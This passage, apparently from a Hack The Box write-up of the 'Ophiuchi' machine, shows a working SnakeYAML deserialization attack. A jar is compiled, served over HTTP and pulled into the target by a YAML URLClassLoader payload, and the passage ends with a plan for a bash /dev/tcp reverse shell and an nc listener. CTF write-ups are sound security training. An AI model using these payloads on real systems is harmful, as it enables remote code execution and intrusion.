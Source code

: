Compile it:
```console
┌─[✗]─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $javac src/artsploit/AwesomeScriptEngineFactory.java
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $jar -cvf ping-check.jar -C src/ .
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1603) (out= 662)(deflated 58%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1473) (out= 388)(deflated 73%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
```

Listen to port ```8000``` to make target machine download the jar file:
```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

And open ```tcpdump``` to check if we get ```ping``` request from target machine:

```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
```

And on website I put the following payload:
```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.14:8000/ping-check.jar"]
  ]]
]
```

Click on ```Parse``` and check we can see on ```tcpdump``` the follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Ophiuchi/yaml-payload]
└──╼ $sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
01:56:39.273276 IP 10.10.10.227 > 10.10.14.14: ICMP echo request, id 1, seq 1, length 64
```

Great, we can run code on target machine.


So we need:
1. Create shell.sh which contains:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.14/4242 0>&1
```
2. Download the shell.sh from target machine
3. Listen to port 4242 using ```nc``` execute the shell.sh
